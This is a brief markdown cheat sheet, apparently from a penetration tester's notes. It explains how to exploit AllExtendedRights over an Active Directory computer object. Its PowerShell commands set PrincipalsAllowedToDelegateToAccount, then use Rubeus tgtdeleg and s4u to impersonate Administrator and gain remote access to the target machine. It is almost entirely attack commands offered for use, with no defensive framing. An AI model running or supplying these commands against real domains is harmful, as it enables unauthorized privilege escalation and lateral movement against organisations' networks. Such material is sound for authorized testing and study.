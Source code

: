 # Exploit AllExtendedRights

## User -(AllExtendedRights)->  Machine2Machine

when user have some AllExtendedRights right to some machine (targetPC).

Require Owned One machine, add machine to target machine.

add PrincipalsAllowedToDelegateToAccount right.


### Using AllExtendedRights add target PC

```powershell
PS C:\mane> . .\Import-ActiveDirectory.ps1
PS C:\mane> Import-ActiveDirectory 
PS C:\mane> set-adcomputer targetPC -PrincipalsAllowedToDelegateToAccount (get-adcomputer sourcePC)
```

### Exploit

```powershell
PS C:\mane> .\Rubeus.exe tgtdeleg /nowrap 

PS C:\mane> .\Rubeus.exe s4u /user:sourcrPC$ /ticket:xxxxxx /impersonateuser:Administrator /msdsspn:cifs/targetPC$.manesec.com /altservice:termsrv,cifs,host,http,winrm,RPCSS,wsman,ldap /ptt /nowrap 

PS C:\mane> $s = New-PSSession -ComputerName "targetPC.manesec.com"
PS C:\mane> Invoke-Command -Session $s -ScriptBlock { whoami }

```


